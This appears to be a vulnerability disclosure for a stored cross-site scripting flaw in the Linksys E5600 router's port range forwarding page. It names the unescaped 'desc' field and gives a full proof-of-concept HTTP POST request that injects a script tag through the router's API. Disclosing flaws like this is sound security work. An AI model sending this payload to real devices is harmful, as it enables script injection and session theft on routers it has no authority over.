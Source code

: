 ```yaml
---
typora-root-url: ..\images
---
```


# TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
The dynamic string concatenation (prf_table_content = prf_table_content + ...) lacks proper escaping and filtering, especially for user-controlled fields like element.desc. This field is directly embedded into the HTML without sanitization, allowing attackers to inject malicious scripts, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![](/Snipaste_2025-01-07_19-39-11.png)
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) used in the construction of the HTML table lacks proper escaping and filtering, specifically in the handling of user-controlled data such as the `element.desc` field. The `element.desc` field is directly embedded into the HTML output without sanitization, making it possible for attackers to inject malicious JavaScript or HTML content.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![]([Editing firmcrosser/Linksys/E5600-1.md at main · SunnyYANGyaya/firmcrosser](https://github.com/SunnyYANGyaya/firmcrosser/edit/main/Linksys/E5600-1.md))
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![](/Snipaste_2025-01-07_19-49-00.png)


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```
